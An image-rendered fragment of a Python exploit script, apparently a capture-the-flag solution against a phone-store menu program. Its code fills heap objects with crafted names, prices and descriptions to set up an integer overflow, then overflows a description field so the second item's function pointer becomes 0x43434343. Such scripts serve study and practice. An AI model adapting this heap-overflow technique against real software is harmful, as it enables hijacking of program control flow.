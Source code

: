 ```python
    sendln('B'*0x4f)
    
    # generate store menu. this will be 0xb20 bytes large, on the heap. 
    readtil('choice?')
    sendln('c')

    # second item, will be allocated after the store menu string
    # this is the one whose function pointer we will corrupt
    readtil('choice?')
    sendln('a')     # sell a phone
    readtil('name?')
    sendln('A'*0x1f)
    readtil('OS?')
    sendln('4')
    readtil('price?')
    sendln('9'*0xf) # this will make the price of this item 0x7fffffff, ready to be abused later
    readtil('description?')
    sendln('B'*0x4f) 
    
    # allocate the rest of the items
    for i in range(13):
        readtil('choice?')
        sendln('a')     # sell a phone
        readtil('name?')
        sendln('A'*0x1f)
        readtil('OS?')
        sendln('4')
        readtil('price?')
        sendln('-'+'9'*0xe) # for these, we'll need the minus sign.
        readtil('description?')
        sendln('B'*0x4f)    
    
    # overflow
    readtil('choice?')
    sendln('a')
    readtil('name?')
    sendln('A'*0x1f)
    readtil('OS?')
    sendln('4')
    readtil('price?')
    sendln('-'+'9'*0xe)
    readtil('description?')
    sendln('B'*(0x4f-4)+'CCCC')     # overflow with 0x43434343

    readtil('choice?')
    sendln('c') # generate store menu & overflow; 2nd item now points to 0x43434343

    raw_input()
pwn()

```

